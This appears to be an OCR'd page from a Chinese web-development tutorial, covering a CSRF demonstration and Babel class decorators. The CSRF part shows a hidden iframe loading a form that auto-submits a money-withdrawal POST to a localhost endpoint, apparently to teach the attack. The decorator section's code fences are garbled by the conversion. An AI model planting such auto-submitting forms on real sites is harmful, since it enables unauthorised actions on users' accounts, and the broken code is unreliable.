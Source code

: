 ###### 7.3.3.5 csrf

```html
<body>
    <img src="https://www.baidu.com/img/bd_logo1.png"/>
    <iframe src="/form" frameborder="0" style="width:0;height:0"></iframe>
</body>
```

###### 7.3.3.6 form

```html
<body>
        <form id="myform" action="http://localhost:3000/withdraw" method="POST">
            <input type="text" name="money" id="money" value="10">
        </form>
        <script>
                setTimeout(function(){
                   document.getElementById('myform').submit();
                },100);
            </script>
</body>
```

##### 7.3.4 支持decorators

- babel-plugin-proposal-decorators

  ```js
  "plugins": [
    ["@babel/plugin-proposal-decorators", { "legacy": true }],
    ["@babel/plugin-proposal-class-properties", { "loose" : true }]
  ]
  ```

  ##### 7.3.5 类decorators

  ```
  `
  ```

  js @testable class Person{

} function testable(target) { target.testable=true; } console.log(Person.testable);

```
```js
let Hooks={
    componentWillMount() {
        console.log('componentWillMount');
    },
    componentDidMount() {
        console.log('componentDidMount');
    }
}
function mixins(...others) {
    return function (target) {
        Object.assign(target.prototype,...others);
    }
}
@mixins(Hooks)
class Component{

}
let c=new Component();
console.log(c);
```
